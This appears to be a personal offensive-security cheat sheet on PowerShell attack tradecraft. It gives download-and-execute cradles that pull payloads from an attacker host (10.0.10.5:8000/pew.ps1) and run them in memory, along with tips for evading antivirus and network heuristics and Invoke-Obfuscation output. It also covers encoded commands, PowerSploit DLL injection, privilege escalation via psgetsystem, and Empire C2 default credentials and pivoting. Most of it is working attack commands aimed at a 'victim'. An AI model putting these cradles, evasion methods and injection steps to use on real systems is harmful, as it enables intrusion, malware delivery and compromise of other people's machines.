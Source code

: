 > Living-of-the-land (using already existent tools of the operating system)

- Execute script from disk
- Preferred: Execute in memory  

GURU: https://github.com/danielbohannon

## Download & Execution

Methods (`Net.WebClient`) in memory
- `DownloadString`
- `DownloadData`
- etc.

### In Memory

Exhaustive in memory approach, with immediate execution (obviously):

```powershell
$downloader = New-Object System.net.webclient
$payload ="http://10.0.10.5:8000/pew.ps1"
$cmd = $downloader.DownloadString($payload)
# optional proxy creds
$proxy = [Net.WebRequest]::GetSystemWebProxy()
$proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
$downloader.Proxy = $proxy
# end optional proxy creds
Invoke-Expression $cmd
```

One-Liner:

```powershell
iex (New-Object Net.WebClient).DownloadString("http://10.0.10.5:8000/pew.ps1")
```

### On Disk

Methods on disk (check [LOLBAS](https://lolbas-project.github.io/#))

```powershell
$downloader = New-Object System.Net.WebClient
$payload = "http://attacker_URL/payload.exe"
$local_file = "C:\programdata\payload.exe"
$downloader.DownloadFile($payload,$local_file) 

& $local_file # executes the payload - you need the leading &
```

### Evasion

- Use https with cert if possible - this can avoid over-the-whire heuristics
- Also name your script `pew.gif` to avoid matching of extenstions, powershell will still execute the script!
- use custom header to resemble legit webrequest!  

```powershell
# ... use user-agent
$downloader.headers.add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")
# ...
```

### execution of XML  

```xml
<?xml version="1.0"?>
	<command>
		<a>
			<execute>Get-Process</execute>
		</a>
	</command>
```

Load and execute in powershell  

```powershell
$xmldoc = New-Object System.Xml.XmlDocument
$xmldoc.Load("http://10.0.10.5:8000/pew.xml")
iex $xmldoc.command.a.execute
```

### usage of COM objects 

> What are COM-Objects: Intercomputer and -process communikation from objects 

```powershell
$downloader = New-Object –ComObject Msxml2.XMLHTTP
$downloader.open(“GET”, “http://10.0.10.5:8000/pew.gif”, $false)
$downloader.send()
iex $downloader.responseText
```

### Tools 

- [invoke-cradlecrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)

## Obfuscation
> Obfuscate your powershell payload (you don't say...)

- [invoke-obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)  

1. set scriptblock  

```powershell
# start invoke-obfuscation
invoke-obfuscation
> set scriptblock iex (New-Object Net.Webclient).downloadstring("http://10.0.10.5:8000/pew.ps1")
``` 

2. Choose option (string/encode etc.)  

```powershell
> string
> 3
# output:
. ( $PShoME[4]+$pshOmE[34]+'X') ([strInG]::joiN('', ([regEX]::MAtCHES(")''nIOJ-'x'+]3,1[)(GniRtSOT.ecNeReFErPEsobrEv$ ( & | )43]rahC[,'3me'ECalpeRc- )')3me1sp.w'+'e'+'p/0'+'0'+'08'+':5.0'+'1.0.01'+'//'+':ptth3me(g'+'ni'+'rtsd'+'aoln'+'wod.)'+'tneilc'+'be'+'W.teN '+'tcejbO-we'+'N( '+'x'+'ei'(( ", '.', 'RIG'+'HttOL'+'ef'+'T')|FoReACH{$_.Value}) ) )
```

3. Or encode  

```powershell
> encode
> 7
# output too long to display here
``` 

4. Avoid concatenating multiple steps connected to one option (like string)  

```powershell
> reset
```

5. Execution  

```powershell
cmd> powershell -Command "<encodedCommand>" # depending on ' and " may not work always
```

6. Launcher  

> Executing the payload a certain way  

```powershell
> launcher
> 3 # choose desired option
# copy payload and execute
```

**STUCK?** the `tutorial` command of `invoke-obfuscation` may help with the next steps.

### Encoded commands  

> Encoding of commands to avoid probable bad chars, depending on our circumstances 

1. Encode command  

```powershell
$cmd = 'ipconfig; arp'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$ec =[convert]::ToBase64String($bytes)
Write-Host $ec
aQBwAGMAbwBuAGYAaQBnADsAIABhAHIAcAA=
```

2. Execute via powershell  

```powershell
cmd> powershell.exe -encodedcommand aQBwAGMAbwBuAGYAaQBnADsAIABhAHIAcAA=
```

## IMPORTANT  

If tools are used, do not import them directly from source - moreover:
- use a download cradle to store in memory
- execute the scripts from memory  

altough the new windows AV might also mingle with that.

## post exploitation 

- [nishang](https://github.com/samratashok/nishang)
- [powersploit](https://github.com/PowerShellMafia/PowerSploit)
- [psgetsystem](https://github.com/decoder-it/psgetsystem)
  
nishang: download, import or serve the specific files to your victim

powersploit: same as above, different scripts and different features

--> Both will be skimmed if downloaded as zip to the victim by the antivirus! 

psgetsystem: try to get system via parent process

### examples  

- powersploit  

```powershell
# display notepad process
ps | ? {$_.processname -match "notepad"}  

# dll injection via powersploit
iex (New-Object net.webclient).DownloadString("http://10.0.10.5:8000/invoke-dllinjection.ps1");invoke-dllinjection -processid 5872 -DLL c:\programdata\cmd.dll
``` 

-> DLLinjection did not work...  

- psgetsystem
	- requires administrator powershell
	- used to circuvent whitelisted application restrictions
	- the command we execute is a child of the given process (via `id`) 

```powershell
# check potential system processes
get-process -includeusername | Where-Object {$_.username -match "SYSTEM"} | fl -Property Username,name,id 

# psgetsystem
. .\psgetsystem.ps1 # importing module
[MyProcess]::CreateProcessFromParent(1572,"cmd.exe", "")
```


## Empire

- C2 Framework [EMPIRE](https://github.com/BC-SECURITY/Empire) (Install manually - kali is fked up, installation takes 10-15 minutes)
	- Defaultcreds for *StarKiller*: `empireadmin:password123`

## Pivoting with empire
> The builtin socks proxy only forwards onto on target port...

1. Run the builtin webproxy within empire
2. Invoke the `powershell_management_invoke_socksproxy` and use attacker IP as `remote` system
3. execute
4. use `proxychains` for usage of the victim host